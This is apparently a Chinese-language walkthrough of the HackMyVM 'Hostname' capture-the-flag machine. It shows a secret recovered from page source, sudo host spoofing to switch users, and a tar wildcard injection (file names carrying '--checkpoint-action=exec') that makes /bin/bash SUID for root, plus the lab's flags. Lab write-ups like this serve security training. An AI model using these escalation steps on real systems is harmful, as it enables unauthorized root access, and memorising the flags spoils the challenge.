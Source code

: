 # Hostname

2025.01.03 https://hackmyvm.eu/machines/machine.php?vm=Hostname

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

首页上是输入 secret，但是没有，需要寻找，查看 html 源码，发现：

```
<script crossorigin="S3VuZ19GdV9QNG5kYQ==" src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
```

base64 解码为 Kung_Fu_P4nda , 将其输入到输入框中，去掉 button 的 diabled 属性，弹出信息: !ts-bl4nk 像是密码，需要找到一个 ssh 用户名，这里查找了其他 wp，发现 disabled 中的内容为 po，当作用户名。

登陆 po 用户后，发现没有 user flag，还有另外一个用户，应该是在 oogway 家目录下面。

进行枚举，发现 crontab 中有： cd /opt/secret/ && tar -zcf /var/backups/secret.tgz ，但是 /opt/secret/ 中是空目录，所属组是 oogway，po 用户没有写入权限，应该是在获得了 oogway 后能提权到 root，现在需要找到 oogway 的切换方式。

发现 sudoer 文件：

```
po@hostname:~$ cat /etc/sudoers.d/po
po HackMyVM = (oogway) NOPASSWD: /bin/bash
```

进行提权：

```
sudo -u oogway /bin/bash
po is not allowed to run sudo on hostname.  This incident will be reported.
```

提示不允许在当前 host 下，需要改提供个临时的 HackMyVM：

```
sudo -u oogway -h HackMyVM /bin/bash
```

得到了 user flag:

```
oogway@hostname:~$ cat user.txt
081ecc5e6dd6ba0d150fc4bc0e62ec50
```

然后在利用 tar 提权到 root：

```
cd /opt/secret/
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" >> --checkpoint=1
```

然后等待 1 分钟，bash 将变成 suid 权限，并获得了 root flag：

```
oogway@hostname:/opt/secret$ /bin/bash -p
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
d5806296126a30ceebeaa172ff9c9151
```
